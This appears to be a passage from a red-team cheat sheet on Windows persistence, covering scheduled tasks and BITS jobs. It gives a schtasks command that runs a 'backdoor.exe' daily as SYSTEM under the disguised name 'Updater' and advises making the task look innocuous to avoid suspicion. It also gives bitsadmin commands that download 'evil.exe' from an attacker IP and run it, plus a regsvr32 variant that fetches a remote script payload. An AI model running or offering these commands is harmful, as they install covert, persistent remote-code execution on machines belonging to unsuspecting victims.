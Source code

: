 {% tab title="cmd.exe" %}
This command will allow your backdoor to be run at a specified time. Combined with the cmd init autorun above this scheduled task could do something helpful or innocuous to avoid suspicion.

```
C:\Windows\system32\schtasks.exe"  /Create /F /RU System /SC DAILY /ST 10:39 /TN Updater /TR "C:\backdoor.exe"
```

* `/Create` – creates a new task&#x20;
* `/F` - forcefully creates the task and suppresses warnings if the task exists&#x20;
* `/RU` - Specifies the user context under which the task runs - System&#x20;
* `/SC` – Frequency of schedule – Daily&#x20;
* `/ST` – Time the task starts – 10:51&#x20;
* `/TN` – Name of the task – Updater&#x20;
* `/TR` – Path and filename of the executable to run - C:\backdoor.exe
{% endtab %}
{% endtabs %}

### BITS Jobs

{% tabs %}
{% tab title="PowerShell" %}
First, you must import the BitsTransfer PowerShell Module with `Import-Module BitsTransfer`.  After you import the BitsTransfer module, the following cmdlets are available:

* **`Add-BitsFile`** Adds files to a BITS transfer
* **`Complete-BitsTransfer`** Completes a BITS transfer
* **`Get-BitsTransfer`** Gets a BITS transfer
* **`Remove-BitsTransfer`** Stops a BITS transfer
* **`Resume-BitsTransfer`** Resumes a suspended BITS transfer
* **`Set-BitsTransfer`** Configures a BITS transfer job
* **`Start-BitsTransfer`** Creates and starts a BITS transfer job
* **`Suspend-BitsTransfer`** Pauses a BITS transfer job

For example, the following Windows PowerShell command begins a BITS transfer from the local computer to a computer named CLIENT:

```powershell
Start-BitsTransfer -Source file.txt -Destination \\client\share -Priority normal
```

When running Windows PowerShell interactively, the PowerShell window displays the progress of the transfer. The following command uses an abbreviated notation to download a file from a Web site to the local computer:

```powershell
Start-BitsTransfer https://server/dir/myfile.txt C:\docs\myfile.txt
```

****[**Microsoft**](https://docs.microsoft.com/en-us/previous-versions/technet-magazine/ff382721\(v=msdn.10\))****
{% endtab %}

{% tab title="cmd.exe" %}
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```